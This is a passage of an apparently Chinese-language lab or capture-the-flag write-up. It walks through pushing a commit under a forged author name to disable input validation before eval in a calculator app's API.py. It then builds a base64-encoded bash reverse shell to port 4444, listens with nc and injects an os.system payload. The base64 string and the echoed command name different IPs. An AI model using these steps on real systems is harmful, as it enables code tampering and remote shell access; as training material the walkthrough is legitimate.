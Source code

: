 ```
vim API.py
```
在最下面

![在这里插入图片描述](https://img-blog.csdnimg.cn/eb03980051484ba68d50db0e6a80baae.png)

现在在调用之前注释输入验证检查
```
eval
```
保存文件后退出

接下来我们要利用之前找到的信息将这些更改提交到存储库
```
git status
git add .
git commit -m "Bug Fix" --author "Jeremy McCarthy <jeremy@dummycorp.com>"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/95116e966f4446c886887366b33ab483.png)

根据之前得到的账号密码来将这些更改推送到远程存储库
```
git push
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/5a41bc4450094dd89fb486bf2ddc52ee.png)

我们查看一下是否更改成功
```
curl http://online-calc.com:8000/API.py
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2c28405e6e2245fbb9aa48bd1e30385c.png)

可以看到，我们修改成功了

现在就需要想办法得到shell了，通过之前的分析我们可以知道
```
为了修复错误，在代码中添加了一个名为的evaluate函数，并且在函数中，isValid在将用户提供的数据传递给函数之前调用了该eval函数
用户输入中的字符在函数中被替换为"* 1.0 /"和evaluate
```
所以我们需要用base64编码一下我们的payload
```
echo 'bash -c "bash -i >& /dev/tcp/192.196.85.2/4444 0>&1"' | base64
```
然后监听我们的本地4444端口
```
nc -lvp 4444
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/cd208a31dfc14de2a364c5e3ee1833c1.png)

然后去到网址的5000端口，执行我们完整的payload
```
__import__("os").system("echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMjguNTIuMi80NDQ0IDA+JjEi | base64 -d | bash")
```
现在将复制的有效负载粘贴到计算器 webapp 的文本框中，然后按下id
```
=
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/b61a9a0c61164284b6cb049f545039b3.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/8518946e21c74d3681749c0db0c33247.png)
